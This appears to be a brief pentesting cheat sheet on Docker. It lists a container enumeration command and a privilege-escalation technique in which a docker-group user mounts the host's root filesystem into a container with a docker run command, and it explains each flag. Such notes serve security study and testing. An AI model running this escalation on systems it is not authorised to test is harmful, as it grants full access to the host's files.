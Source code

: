 # Docker

## Enumeration

View running containers:

`docker ps`

\`\`

\`\`

## Priv esc

If we have a user which is part of the `docker` group we can mount the file system to the docker and see all files

mount the file system:

`docker run -v /:/hostOS -i -t [image name] bash`

* `-v /:/hostOS` - mount the host’s `/` as `/hostOS` inside the image
* `-i` - interactive
* `-t` - create a tty
* `[image name]` - the name of the image to run, got from `docker ps above`
* `bash` - command to run


